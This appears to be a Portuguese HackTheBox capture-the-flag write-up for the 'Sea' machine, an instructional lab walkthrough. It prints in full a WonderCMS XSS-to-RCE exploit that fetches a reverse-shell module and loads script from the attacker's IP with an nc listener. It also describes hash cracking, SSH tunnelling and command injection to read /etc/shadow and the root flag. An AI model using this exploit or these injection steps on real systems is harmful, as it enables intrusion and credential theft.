






Esse é o WriteUp da Box "Sea", a qual foi realizada na plataforma HackTheBox. Nela foi realizada uma varredura de portas para encontrar possíveis serviços ativos. Após isso,
uma enumeração de diretórios web, onde foi possível descobrir a versão do CMS utilizado. O terceiro passo foi encontrar a vulnerabilidade para a aplicação, a qual foi explorada e obtido o primeiro acesso ao host. Em seguida, foi possível encontrar arquivos sensíveis e descobrir senha de usuários. Dessa forma, foi possível acessar o host utilizando as credenciais obtidas. Para a escalação de privilégio, foi verificado a existencia de serviços ativos dentro do host, então foi utilizado um tunelamento ssh para que fosse possível acessar esse serviço da máquina do atacante. Após esse acesso, foi utilizado as credenciais já obtidas anteriormente para se autenticar. Foi encontrado na aplicação uma vulnerabilidade de command injection, a qual foi explorada e obtida a flag de root.

# Overview


## 1. Information Gathering

### Port Scan

```
nmap --top-ports=100 10.10.11.28
```



### Portas encontradas

```
22, 80
```

## 2.Enumeration

### HTTP 80

Acessando Host via http:


Foi encontrado um link para contato


Ao tentar acessar o link, fomos redirecionados para o domínio sea.htb/contact.php. 


Para conseguir acessar esse endereço, deve-se cadastrar o link no /etc/hosts e linkar com o endereço do alvo.

Ao realizar esse processo, foi obtido acesso ao formulário de inscrição.


Além disso, foi realizado um htmlparser utilizando a ferramenta sharingan, para encontrar links úteis para exploração.

```
┌──(kali㉿kali)-[~/Documents/HTB/labsHTB/sea]
└─$ python sharingan.py http://sea.htb sea   
Acessando: http://sea.htb
Acessando: http://sea.htb/
Acessando: http://sea.htb/home
Acessando: http://sea.htb/how-to-participate
Acessando: http://sea.htb/contact.php

Emails encontrados:
set()

Links visitados:
{'http://sea.htb/how-to-participate', 'http://sea.htb/contact.php', 'http://sea.htb/home', 'http://sea.htb/', 'http://sea.htb'}

```

**Links encontrados:**

```lua
'http://sea.htb/how-to-participate',
'http://sea.htb/contact.php', 
'http://sea.htb/home',
'http://sea.htb/'
```

Foi realizado um fuzzy em diretórios web para encontrar possíveis arquivos e diretórios ocultos.


Foram encontrados os seguintes diretórios:

```lua
/data, /messages, /plugins, /themes
```

A maioria dos resultados do gobuster não há permissão de acesso.


utilizando o feroxbuster conseguimos acessar todos os diretórios recursivamente.

```bash
# feroxbuster -u http://sea.htb/ -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,pdf,txt,bkp,md --filter-status 403,404
```


Arquivos encontrados:

```bash
200      GET      118l      226w     2731c http://sea.htb/contact.php
200      GET       21l      168w     1067c http://sea.htb/themes/bike/LICENSE
200      GET       15l       50w      318c http://sea.htb/themes/bike/README.md
200      GET        1l        9w       66c http://sea.htb/themes/bike/summary
200      GET        1l        1w        6c http://sea.htb/themes/bike/version

```

Ao acessar o arquivo [README.md](http://README.md) podemos encontrar o nome do CMS utilizado




CMS: WonderCMS

## 3. Exploration

Como agora sabemos o CMS utilizado e provavelmente a versão dele, podemos tentar encontrar algum exploit para ele.

O exploit encontrado realizava o download de um reverse shell em php no github. Porém, as máquinas do HTB não tem acessa a internet, então não seria possível realizar esse download.

Para resolver esse problema, é necessário criar o arquivo zip localmente e modificar o script para que ele faça o upload necessário com as configurações corretas. O passo a passo utilizado será descrito a seguir:

1. Criar o shell reverso que será armazenado dentro do diretório o qual será comprimido:
    
    
     
    
    ```bash
    mkdir whatever
    ```
    

1. Modificar o reverse shell que será utilizado.
    
    
    
    
    1. O arquivo foi nomeado como rev.php, pois no script original já estava com esse nome será mais fácil para modifica-lo;
    2. O arquivo rev.php está compreendido dentro do diretório whatever (`whatever/rev.php` );
    
2. Foi realizado a compressão do diretório `whatever` ;
    
    
    

1. Foi realizado a modificação do exploit:
    
    
    1. Ao invés de utilizar o endereço do github, foi utilizado o diretório local
        
        
        
    2. Foi modificado todos os lugares necessários onde indicava o nome do arquivo e reverse shell
        
        
        
    3. Arquivo do exploit original:
        
        ```bash
        # Author: prodigiousMind
        # Exploit: Wondercms 4.3.2 XSS to RCE
        
        import sys
        import requests
        import os
        import bs4
        
        if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
        else:
          data = '''
        var url = "'''+str(sys.argv[1])+'''";
        if (url.endsWith("/")) {
         url = url.slice(0, -1);
        }
        var urlWithoutLog = url.split("/").slice(0, -1).join("/");
        var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
        var token = document.querySelectorAll('[name="token"]')[0].value;
        var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
        var xhr3 = new XMLHttpRequest();
        xhr3.withCredentials = true;
        xhr3.open("GET", urlRev);
        xhr3.send();
        xhr3.onload = function() {
         if (xhr3.status == 200) {
           var xhr4 = new XMLHttpRequest();
           xhr4.withCredentials = true;
           xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
           xhr4.send();
           xhr4.onload = function() {
             if (xhr4.status == 200) {
               var ip = "'''+str(sys.argv[2])+'''";
               var port = "'''+str(sys.argv[3])+'''";
               var xhr5 = new XMLHttpRequest();
               xhr5.withCredentials = true;
               xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
               xhr5.send();
               
             }
           };
         }
        };
        '''
          try:
            open("xss.js","w").write(data)
            print("[+] xss.js is created")
            print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
            print("----------------------------\n")
            XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
            XSSlink = XSSlink.strip(" ")
            print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
            print("----------------------------\n")
        
            print("\nstarting HTTP server to allow the access to xss.js")
            os.system("python3 -m http.server\n")
          except: print(data,"\n","//write this to a file")
        ```
        
    
2. Após isso foi executado o exploit:
    
    
    
    1. `4444`  é a porta a qual será conectada.
    2. `10.10.14.248`  é o IP da máquina do atacante na VPN
    
3. O script solicita que seja aberta a porta que será utilizada:
    
    
    

1. O link fornecido será colado no formulário de inscrição.
    
    
    
    

1. Será realizada a requisição do alvo para o atacante, fazendo o Download do arquivo zip
    
    
    
2. Shell obtida:
    
    
    

## 4. Post-Exploration

- Não temos acesso aos dados necessários utilizando o usuário www-data, então iremos buscar outro usuário no sistema.
- Podemos ver que há um arquivo chamado databases.js, o qual há credenciais.


Usando o john para quebrar o hash do arquivo.


R:mychemicalromance

- Foi possível verificar que tem dois usuários no sistema, um chamado geo e o outro amay.
    
    
    

- Foi utilizado a credencial encontrada para acessar a conta via ssh.
    
    
    

Acesso realizado com sucesso, foi obtida a primeira chave.


R: 4de7fe872af88e97043392308bf5b7ef

## 4.1 Priv Escalation

- Utilizando o `ss -tunal`  podemos encontrar informações sobre serviços rodando localmente.


Encontramos os serviços nas portas 80 e 8080

Realizando um tunelamento com ssh para a porta 8080 do alvo.


Acessando o host pelo tunelamento, encontramos uma solicitação de credenciais.


Foi utilizada a mesma senha do usuário.

`amay:mychemicalromance`

Foi obtido acesso a aplicação, a aplicação lê os logs do sistema. Possivelmente um command injection.


o sistema realiza a verificação dos arquivos de log possivelmente direto do sistema operacional, para realizar essa verificação.



Analisando o código, pode-se observar que há um caminho específico para ler o arquivo.


Quando o caminho é modificado, o sistema tenta ler o arquivo indicado.




Foi tentado ler o arquivo shadow do sistema.




Porém dessa forma, só é obtido parte do arquivo, sem o conteúdo completo, contendo a senha do root.

Ao tentar ler o arquivo root.txt diretamente também não foi obtido sucesso.


Após algumas análises, foi tentado realizar a concatenação de comandos e executar mais de um comando ao mesmo tempo no sistema.


Foi verificado que dessa forma é possível obter o arquivo shadow completo. além de executar mais de um comando.


Foi realizada a tentativa de quebra de hash com a ferramenta `john the ripper` porém não foi obtido um sucesso inicial, demorando muito para resposta final.


Enquanto isso, foi realizado a tentativa de ler o arquivo root.txt.


R:084075d89d59ba60277c90c612768c9b